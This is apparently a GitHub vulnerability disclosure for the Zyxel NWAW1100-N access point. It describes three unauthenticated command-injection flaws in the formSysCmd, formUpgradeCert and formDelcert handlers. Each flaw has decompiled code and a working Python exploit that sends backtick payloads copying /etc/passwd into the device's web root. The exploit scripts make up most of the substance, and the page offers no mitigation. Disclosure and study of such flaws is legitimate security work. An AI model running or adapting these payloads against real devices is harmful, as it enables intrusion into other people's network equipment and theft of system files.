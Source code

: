 ## zyxel NWAW1100-N rce

offical website：https://www.zyxel.cn/

model ：NWAW1100-N 

Firmware Version: 1.00(AACE.1)C0

introduction：https://prodotti.zyxel.it/USERSGUIDE/ZYXNWA-1100-N.pdf

NWAW1100-N is an Access Point produced by zyxel. Through reverse analysis, it is found that it has the following three command execution vulnerabilities.

![898897be3e6e17780180d3e008ce870](https://github.com/user-attachments/assets/106a78eb-1d62-433c-8273-2ef6bf65fcbd)
![image](https://github.com/user-attachments/assets/6fcbb93d-d04e-4f77-933d-68b5e23688ae)
![image](https://github.com/user-attachments/assets/5f0ee271-0a30-45a6-ac87-8d5d3a724202)






#### Vulnerability 1

##### function formSysCmd

![image](https://github.com/user-attachments/assets/b06ed648-2225-4133-ad01-fada8a0e36e2)


`sysCmd` as a parameter can be exploited by malicious attackers to construct command execution. 

```
    snprintf(v5, 100, "%s 2>&1 > %s", Var, "/tmp/syscmd.log");
    system(v5);
```

The `var` variable first receives the value of `sysCmd`, and then is concatenated and passed to the `system` function for execution.

##### exp

```python
import requests

url = "http://192.168.1.2:80/goform/formSysCmd"
headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.2", "Connection": "close", "Referer": "http://192.168.1.2/sys_system.asp", "Upgrade-Insecure-Requests": "1"}
data = {"sysCmd": "`cat /etc/passwd > /var/webpages/test.css`"}
requests.post(url, headers=headers, data=data)
```

![image](https://github.com/user-attachments/assets/63dd2830-8a20-4b9a-89dd-8771ab37bf2d)










#### Vulnerability 2

##### function formUpgradeCert

![image](https://github.com/user-attachments/assets/ea311c66-dc72-4891-a5cf-de80afe13439)


```
 ......
 Var = websGetVar(a1, "upname", (int)&byte_43D298);
 ......
 sprintf(v9, "mv %sUnknowing.pfx %s%s", "/var/cert/", "/var/cert/", Var);
 system(v9);
 ......
```

Here the Var variable accepts the upname argument, and then concatenates the command to execute the system function. There is no validation here, so it can be bypassed with backquotes, resulting in command execution vulnerabilities

![image](https://github.com/user-attachments/assets/88c1ce3b-cb32-47b4-86e0-a49abe1180ca)


Here, because there is some processing of the Var variable, the character 'aaaa' is added before and after the payload

##### exp

```
import requests

url = "http://192.168.1.2:80/goform/formUpgradeCert"
headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.2", "Connection": "close", "Referer": "http://192.168.1.2/sys_system.asp", "Upgrade-Insecure-Requests": "1"}
data = {"upname": "aaaaa`cat /etc/passwd > /var/webpages/test222.css`aaaaa"}
requests.post(url, headers=headers, data=data)
```

![image](https://github.com/user-attachments/assets/255fcc5d-4bd2-4e03-9ea3-6624da9c9952)












#### Vulnerability 3

##### function formDelcert

![image](https://github.com/user-attachments/assets/eedb4419-f89f-4944-b4c6-94e94d6ee723)


Here the var variable takes the value of the cert parameter and then concatenates the command behind it to execute the system function.

exp

```
import requests

url = "http://192.168.1.2:80/goform/formDelcert"
headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.2", "Connection": "close", "Referer": "http://192.168.1.2/sys_system.asp", "Upgrade-Insecure-Requests": "1"}
data = {"certs": "`cat /etc/passwd > /var/webpages/test333.css`"}
requests.post(url, headers=headers, data=data)
```

![image](https://github.com/user-attachments/assets/8a090b36-52f9-46b8-b3ca-1ca710d66360)
